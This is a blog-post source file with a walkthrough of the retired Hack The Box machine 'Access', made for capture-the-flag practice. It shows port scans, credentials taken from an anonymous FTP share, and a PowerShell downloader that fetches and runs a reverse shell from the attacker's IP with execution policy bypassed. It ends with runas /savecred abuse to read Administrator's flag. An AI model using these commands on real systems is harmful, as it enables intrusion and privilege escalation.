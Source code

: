 ```yaml
---
layout: post
title: "Access: Hack The Box Walkthrough"
date: 2019-03-03 04:43:45 +0000
last_modified_at: 2019-03-03 04:46:16 +0000
category: Walkthrough
tags: ["Hack The Box", Access, retired]
comments: true
image:
  feature: access-htb-walkthrough.jpg
  credit: Pexels / Pixabay
  creditlink: https://pixabay.com/en/dark-door-door-handle-light-open-1852985/
---
```


This post documents the complete walkthrough of Access, a retired vulnerable [VM][1] created by [egre55][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Access is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.98 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-09 10:37:40 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.98
Discovered open port 23/tcp on 10.10.10.98
Discovered open port 21/tcp on 10.10.10.98
```

`masscan` finds three open ports: `21/tcp`, `23/tcp` and `80/tcp`. Let's do one better with `nmap` scanning these discovered ports.

```
# nmap -n -v -Pn -p21,23,80 -A --reason -oN nmap.txt 10.10.10.98
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```

Since anonymous FTP is allowed, let's check it out first.

<a class="image-popup">
![ee418d6f.png](/assets/images/posts/access-htb-walkthrough/ee418d6f.png)
</a>

There's a huge file in the `Backups` directory—`backup.mdb`. It appears to be a Microsoft Access Jet Database (MDB) file.

<a class="image-popup">
![0ce46389.png](/assets/images/posts/access-htb-walkthrough/0ce46389.png)
</a>

There's also a big file—`Access Control.zip`, in the `Engineers` directory.

<a class="image-popup">
![ea05e083.png](/assets/images/posts/access-htb-walkthrough/ea05e083.png)
</a>

The archive file is password-protected and it appears to contain a Personal Storage Table (PST) file in it.

### Microsoft Office

I know there are Linux tools to read MDB and PST files but for the sake of convenience, let's use Microsoft Office to open them. I'll use Microsoft Access to read the MDB file. Here's what I found in the `auth_user` table.

<a class="image-popup">
![access.png](/assets/images/posts/access-htb-walkthrough/access.png)
</a>

The password `access4u@security` is the one to extract the PST file from the archive. I'll use Microsoft Outlook to read the PST file. There's only one email in the mailbox.

<a class="image-popup">
![outlook.png](/assets/images/posts/access-htb-walkthrough/outlook.png)
</a>

Another credential (`security:4Cc3ssC0ntr0ller`) in the bag!

### Telnet

Let's give the credential a shot with the Telnet service.

<a class="image-popup">
![16c6c1e1.png](/assets/images/posts/access-htb-walkthrough/16c6c1e1.png)
</a>

Awesome.

The file `user.txt` is at `security`'s desktop.

<a class="image-popup">
![0c8d6cb5.png](/assets/images/posts/access-htb-walkthrough/0c8d6cb5.png)
</a>

## Privilege Escalation

Telnet is painfully slow. Let's run a reverse shell in PowerShell. First of all, let's write a `wget` script in PowerShell. Note that this system is running Windows Server 2008. As such, only PowerShell 2.0 is available. Echo the following lines to `C:\Users\security\Downloads\wget.ps1`.

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile($Args[0],$Args[1])
```

<a class="image-popup">
![7638e0eb.png](/assets/images/posts/access-htb-walkthrough/7638e0eb.png)
</a>

Next, generate a reverse shell in PowerShell with `msfvenom` like so.

<a class="image-popup">
![bfe9f363.png](/assets/images/posts/access-htb-walkthrough/bfe9f363.png)
</a>

Run the following commands in the `telnet` session to transfer `rev.ps1` over.

```
powershell -ExecutionPolicy Bypass -File wget.ps1 http://10.10.12.246/rev.ps1 rev.ps1
```

Now, we can execute the reverse shell with the following command.

```
powershell -ExecutionPolicy Bypass -NoExit -File rev.ps1
```

The `-NoExit` switch indicates that we don't want to exit from the thread. We should get a reverse shell in our `nc` listener.

<a class="image-popup">
![5f59bc8d.png](/assets/images/posts/access-htb-walkthrough/5f59bc8d.png)
</a>

During enumeration of `security`'s account, I ran the `cmdkey` command to list the stored credentials in the box and this is what I saw.

<a class="image-popup">
![d1e7b1c4.png](/assets/images/posts/access-htb-walkthrough/d1e7b1c4.png)
</a>

Perfect. This means that I can use the `/savecred` switch in `runas` to impersonate Administrator without knowing the password! Now, let's claim the prize with the following command:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"
```

<a class="image-popup">
![6874f21f.png](/assets/images/posts/access-htb-walkthrough/6874f21f.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/156
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
